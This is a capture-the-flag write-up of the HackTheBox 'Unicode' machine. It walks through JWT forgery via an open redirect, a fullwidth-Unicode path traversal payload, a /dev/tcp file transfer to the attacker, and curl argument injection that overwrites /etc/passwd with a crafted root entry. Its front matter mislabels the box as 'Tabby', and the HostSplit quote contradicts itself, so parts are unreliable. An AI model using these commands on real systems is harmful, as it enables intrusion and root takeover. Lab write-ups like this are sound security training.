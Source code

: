 ```yaml
---
title: HackTheBox - Unicode 
categories: htb OpenRedirect jwt HostSplit 
excerpt: | 
   Unicode is a medium difficulty Linux machine.

feature_text: |
  ## Tabby - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
nmap ip:
``` 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fd:a0:f7:93:9e:d3:cc:bd:c2:3c:7f:92:35:70:d7:77 (RSA)
|   256 8b:b6:98:2d:fa:00:e5:e2:9c:8f:af:0f:44:99:03:b1 (ECDSA)
|_  256 c9:89:27:3e:91:cb:51:27:6f:39:89:36:10:41:df:7c (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Hugo 0.83.1
|_http-title: Hackmedia
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The machine begins with the enumeration of a webserver. Upon registering a new account on the webserver a *JWK cookie* is used to authenticate the current session.
Inspecting the JWK cookie reveals that it is signed through a jwks.json stored on the server.

There is an *open redirect* in `http://10.10.11.126/redirect?url=`. 

### Exploit vulnerabilities
Combining the findings so far an attacker could use the `jkt_tool` to generate a new couple of private and public keys, and use the open redirect to alocate in his domain a new jwks.json.

Replacing the authentication cookie with the newly crafted in [jwt.io] (https://jwt.io) the server will request to the attacker machine for the jwks.json.

Once you're in dashboard page there is an heavily filtered LFI endpoint. To bypass the filtration a *HostSplit* attack can be userd since the webserver converts Unicode characters back to ASCII: 
> HostSplit vulnerability: the redirect logic for this endpoint only checked that the redirect URL ended with ".dropbox.com" this redirect would be accepted, but if a user browsed to this page with Edge, the browser would follow the redirect to https://evil.ca/c.dropbox.com instead of https://evil.ca/c.dropbox.com.

```
http://10.10.11.126/display/?page=..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8fetc%ef%bc%8fnginx%ef%bc%8fsites-available%ef%bc%8fdefault
```

Enumerating the local file system there is an db.yaml with credentials in /etc/nginx/sites-available/default. Check this file and use this credentials to create a ssh conection.

### Privilege Scalation
Look for privilege: sudo -l.
> (ALL)/(ALL) /usr/bin/treport as sudo

Examine how it works. An attacker can get the Python compiled binary and extract the source code.
1. (attacker): nc -lvnp 443 > treport
2. (victim): cat < /usr/bin/treport > /dev/tcp/{tu_ip}/443/treport

Get the md5sum of the file to check if there was any problem.

The attacker is able extract the source code using [pyinstxtractor] (https://github.com/extremecoders-re/pyinstxtractor) utility. Then use [pycdc](https://github.com/zrax/pycdc).

Reviewing the source code the attacker is able to spot a filtering bypass to inject command arguments to a `curl` call. 

The attacker can change the root password if he could change the /etc/passwd file. Download the passwd file of the victim's machine and change the 'x' value to an des(unix) format. Generate one of them with openssl:
> root:KW25kt7gvYupk:0:0:root:/root:/bin/bash

Use {your\_ip/passwd,-o,/etc/passwd} as an input of the execution of treport.

Finally access to `su root` and use the password you have changed

